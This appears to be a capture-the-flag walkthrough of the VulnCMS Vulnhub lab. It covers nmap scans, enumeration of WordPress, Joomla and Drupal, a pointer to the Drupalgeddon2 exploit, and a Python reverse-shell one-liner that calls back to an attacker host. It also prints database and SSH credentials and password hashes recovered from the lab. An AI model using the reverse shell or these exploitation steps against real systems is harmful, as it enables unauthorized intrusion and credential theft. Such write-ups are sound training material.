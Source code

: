 # VulnCMS Vulnhub Walkthrough

## All Ports Scan

```bash
# Nmap 7.91 scan initiated Tue Jun 15 21:11:41 2021 as: nmap -T4 -vv -sT -p- -oA nmap/allports 192.168.1.51
Nmap scan report for 192.168.1.51
Host is up, received arp-response (0.00018s latency).
Scanned at 2021-06-15 21:11:41 EDT for 2s
Not shown: 65530 closed ports
Reason: 65530 conn-refused
PORT     STATE SERVICE         REASON
22/tcp   open  ssh             syn-ack
80/tcp   open  http            syn-ack
5000/tcp open  upnp            syn-ack
8081/tcp open  blackice-icecap syn-ack
9001/tcp open  tor-orport      syn-ack
MAC Address: 08:00:27:3C:22:7A (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Jun 15 21:11:43 2021 -- 1 IP address (1 host up) scanned in 2.09 seconds
```

## Complete Scan

```bash
# Nmap 7.91 scan initiated Tue Jun 15 21:12:00 2021 as: nmap -T4 -sT -sV -sC -A -p- -oA nmap/complete 192.168.1.51
Nmap scan report for 192.168.1.51
Host is up (0.00058s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8c:9f:7e:78:82:ef:76:f6:26:23:c9:52:6d:aa:fe:d0 (RSA)
|   256 2a:e2:f6:d2:52:1c:c1:d0:3d:aa:40:e6:b5:08:1d:45 (ECDSA)
|_  256 fa:c9:eb:58:e3:d2:b7:4a:74:77:fc:69:0e:b6:68:08 (ED25519)
80/tcp   open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: W3.CSS Template
5000/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: WordPress 5.7.2
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: fsociety &#8211; Just another WordPress site
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home
9001/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: fsociety.web
MAC Address: 08:00:27:3C:22:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.58 ms 192.168.1.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 15 21:12:22 2021 -- 1 IP address (1 host up) scanned in 23.09 seconds
```

## Port 80 Enumeration

Nothing more only default running website.

![](Images/Pasted%20image%2020210615211854.png)

While looking into robots.txt got 2 entries.

![](Images/Pasted%20image%2020210615215907.png)

Got a message

![](Images/Pasted%20image%2020210615220007.png)

## Port 5000 Enumeration

Website binded with a domain 

![](Images/Pasted%20image%2020210615211534.png)

While Looking for website got the location

![](Images/Pasted%20image%2020210615215625.png)

```bash
Username : wordpress_admin
/var/www/html/wordpress/public\_html/wp-content/themes/twentytwentyone/index.php
```

## Port 8081 Enumeration

![](Images/Pasted%20image%2020210615213806.png)

## Port 9001 Enumeration

![](Images/Pasted%20image%2020210615213714.png)

```bash
Username : admin_cms_drupal
```

![](Images/Pasted%20image%2020210615224201.png)

https://github.com/dreadlocked/Drupalgeddon2

![](Images/Pasted%20image%2020210615224241.png)

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](Images/Pasted%20image%2020210615224716.png)

![](Images/Pasted%20image%2020210615225158.png)

```java
Wordpress : 
define( 'DB_NAME', 'wordpress_db' );
/** MySQL database username */
define( 'DB_USER', 'wp_admin' );
/** MySQL database password */
define( 'DB_PASSWORD', 'UUs3R_C!B@p@55' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

Drupal : 
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal_db',
      'username' => 'drupal_admin',
      'password' => 'p@$$_C!rUP@!_cM5',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

Joomla : 
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'joomla_admin';
	public $password = 'j00m1_@_dBpA$$';
	public $db = 'joomla_db';

```

![](Images/Pasted%20image%2020210615225559.png)

![](Images/Pasted%20image%2020210615225719.png)

![](Images/Pasted%20image%2020210615232337.png)

```bash
+----+------------+-----------------+-------------------------+--------------------------------------------------------------+
| id | name       | username        | email                   | password                                                     |
+----+------------+-----------------+-------------------------+--------------------------------------------------------------+
| 46 | Super User | joomlaCMS_admin | Fluntence54@armyspy.com | $2y$10$EYc6SKfMLzlLE/IcD9a6XeAe2Uv7WTBFlbbqRrnpht1K0M1bLrWee |
| 47 | elliot     | elliot          | 5T3e!_M0un7i@N          | $2y$10$jddnEQpjriJX9jPxh6C/hOag4ZZXae4iVhL7GVRPC9SHWgqbi4SYy |
+----+------------+-----------------+-------------------------+--------------------------------------------------------------+
```

```bash
Credentials : 
SSH
Username : elliot
Password : 5T3e!_M0un7i@N
Username : tyrell
Password : mR_R0bo7_i5_R3@!_

Username: joomlaCMS_admin
Password: _q4gWWJuBWt8cqfbUm-cdevR?L@N7-pR
```
![](Images/Pasted%20image%2020210615232544.png)

![](Images/Pasted%20image%2020210615235234.png)

![](Images/Pasted%20image%2020210616141517.png)

![](Images/Pasted%20image%2020210616141737.png)

![](Images/Pasted%20image%2020210616142005.png)

![](Images/Pasted%20image%2020210616142047.png)